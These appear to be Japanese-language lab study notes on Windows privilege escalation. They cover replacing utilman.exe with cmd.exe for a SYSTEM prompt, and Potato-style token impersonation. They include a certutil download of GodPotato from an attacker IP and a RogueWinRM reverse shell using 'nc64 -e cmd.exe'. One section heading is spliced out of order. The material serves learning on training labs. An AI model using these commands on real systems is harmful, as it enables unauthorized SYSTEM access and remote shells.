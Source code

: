 ### SeTakeOwnership 権限

ユーザーはファイルやレジストリ キーを含むシステム上のあらゆるオブジェクトの所有権を取得できる。

様々な方法が考えられるが、下記では utilman.exe を悪用する。utilman.exe は、ロック画面で簡単操作を提供するアプリで SYSTEM として実行される。

### SeImpersonatePrivilege 権限

https://github.com/BeichenDream/GodPotato

https://github.com/itm4n/PrintSpoofer

```sh
certutil -URLcache -split -f http://10.13.85.243:8000/GodPotato-NET4.exe GodPotato-NET4.exe

GodPotato-NET4.exe -cmd "cmd /c whoami"
```

#### 所有権を取得し、自分にフルアクセス権限を付ける

```powershell
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant <user>:F
```

utilman.exe を cmd.exe に置き換える

```shell
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

これで、ロック画面で「簡単操作」ボタンを押したら、System ユーザーでコマンドプロンプトが表示されるようになる。

### SeImpersonate, SeAssignPrimaryToken 権限

他のユーザーのセキュリティコンテキストでプロセスやスレッドを起動できる権限。（なりすまし）

#### 背景

ユーザー (権限のないユーザーを含む) が Windows で BITS サービスを開始するたびに、SYSTEM 権限を使用してポート 5985 への接続が自動的に作成される。ポート 5985 は通常、WinRM サービスに使用される。
何らかの理由で WinRM サービスが実行されていない場合、攻撃者はポート 5985 で偽の WinRM サービスを開始し、開始時に BITS サービスによって行われる認証の試行をキャッチできる。攻撃者が SeImpersonate 権限を持っている場合、接続ユーザー (SYSTEM) に代わって任意のコマンドを実行できるという理屈。

```powershell
# RogueWinRM を使用して、リバースシェル接続を確立できる
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <ip> <port>"
```

https://github.com/antonioCoco/RogueWinRM

## 証明書テンプレート

https://tryhackme.com/room/adcertificatetemplates

```ps
# 全てのテンプレートを列挙
certutil -v -template > cert_templates.txt
```

